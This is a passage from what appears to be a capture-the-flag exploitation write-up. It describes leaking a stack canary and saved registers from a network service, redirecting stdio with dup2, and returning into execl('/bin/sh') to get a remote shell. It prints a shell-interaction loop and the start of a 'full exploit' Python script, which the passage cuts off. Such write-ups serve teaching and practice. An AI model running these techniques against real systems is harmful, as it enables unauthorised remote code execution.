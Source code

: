 We basically call dup2 three times to redirect stdin, stdout and stderr to the socket and then we return to 0x08048c62 where there is a call to execl("/bin/sh"). Convenient, right? Now all we have to do is interact with the shell via the socket:

```lang-python line-numbers 
print "[+] Shell is waiting ..."
while True:
    sys.stdout.write("$ ")
    sys.stdout.flush()
    c = sys.stdin.readline()
    s.send(c)
    time.sleep(0.5)
    print s.recv(4095)
```

![](/images/octopress/angrybird-11.png)

Voila!

Full exploit:

```lang-python line-numbers 
import socket
import struct
import time
import sys
import re

def get_canary(ip, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    print("[+] Wating for menu")
    time.sleep(3)
    # Receive menu
    s.recv(1024)
    s.send("4\n")
    time.sleep(1)
    print("[+] Sending mouse trap")
    payload = "y" + "A"*9 + "\n"
    s.send(payload)
    # Receive "are you sure?"
    message = s.recv(60)
    # Receive canary
    message = s.recv(60)
    canary_group = re.match(".*yAAAAAAAAA\n(.*)'!.*", message)
    canary = struct.unpack("<I", "\x00" + canary_group.group(1)[:3])[0]
    ebp = struct.unpack("<I", canary_group.group(1)[11:15])[0]
    eip = struct.unpack("<I", canary_group.group(1)[15:19])[0]
    print "[+] Got canary %#x" % canary
    print "[+] Got saved ebp %#x" % ebp
    print "[+] Got saved eip %#x" % eip
    s.close()
    return (canary, ebp, eip)

def leak_address(ip, port, canary, ebp, address, socketfd):
    ss = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    ss.connect((ip, port))
    print("[+] Reconnecting")
    time.sleep(3)
    # Receive menu
    ss.recv(1024)
    ss.send("4\n")
    time.sleep(1)
    # Receive "are you sure?"
    ss.recv(60)
    print("[+] Sending leakage payload")
```